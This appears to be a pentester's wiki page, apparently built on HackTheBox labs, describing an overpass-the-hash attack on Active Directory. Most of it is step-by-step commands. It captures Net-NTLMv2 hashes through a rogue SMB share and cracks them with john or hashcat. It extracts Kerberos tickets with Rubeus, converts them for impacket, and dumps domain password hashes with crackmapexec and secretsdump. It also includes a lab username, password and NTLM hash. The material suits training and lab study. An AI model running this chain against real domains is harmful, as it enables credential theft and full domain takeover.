 ```yaml
---
description: Using a NT hash to obtain Kerberos tickets
---
```


# Overpass-the-hash Attack

## Methodology&#x20;

[https://www.thehacker.recipes/ad/movement/kerberos/ptk](https://www.thehacker.recipes/ad/movement/kerberos/ptk)&#x20;

To execute the overpass the hash attack, get **NTLM** and Password first, and get **Kerberos Tickets via NTLM hash** and **password**.&#x20;

* _See_ [_NTLM Poisoning - Responder_ ](../init-ntlmv2-theft.md)_section._&#x20;
* For SMB protocol, here is a quick way to grab Net-NTLM-v2 hash and crack it

```bash
# Kali 
Kali> smbserver.py -smb2support smb .

# Windows 
CMD> type null > hello.txt
CMD> copy hello.txt \\10.10.14.107\smb 

# Kali
vi hashes.txt # and copy and past it 
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
# or
hashcat hashes.txt /usr/share/wordlists/rockyou.txt 
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

## &#x20;Kerberos Tickets

#### For current user without password, use Rebeus.&#x20;

{% code overflow="wrap" %}
```bash
# Run the command to get TGT for curren user
# Rubeus shows base64 format of Kerberos ticket. 
CMD> .\Rubeus.exe tgtdeleg /nowrap

# @Kali
# Copy ticket to a file
vi kirbi.b64 

# decode base64 file -> binary format used for mimikatz
base64 -d kirbi.b64 > ticket.kirbi 

# Convert the kirbi to ccache for impacket and metasploit  
impacket-ticketConverter ticket.kirbi G0.ccache

# Inject the ticket into memory
export KRB5CCNAME=G0.ccache   # This is the case of Machine certificate

# Modify clock SKEW issue 
sudo ntpdate 10.129.228.120

# Validate if you can use the ticket 
cme smb g0.flight.htb -k --use-kcache    # g0.flight.htb is the target machine 

# Grab all NTDS content with the ticket 
cme smb g0.flight.htb -k --use-kcache --ntds drsuapi

# DirSync with ticket 
impacket-secretsdump -no-pass -k g0.flight.htb -just-dc-user Administrator
```
{% endcode %}

#### For user with password or NTLM hash, you could use Impact tools.&#x20;

{% code overflow="wrap" %}
```bash
#impact-getTGT
impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl' -dc-ip $RHOST
impacket-getTGT ignite.local/yashika -hashes :64fbae31cc352fc26af97cbdef151e03 -dc-ip $RHOST

# Inject the ticket into memory
export KRB5CCNAME=d.klay.ccache

# The rest of the attack is the same as above.  
```
{% endcode %}

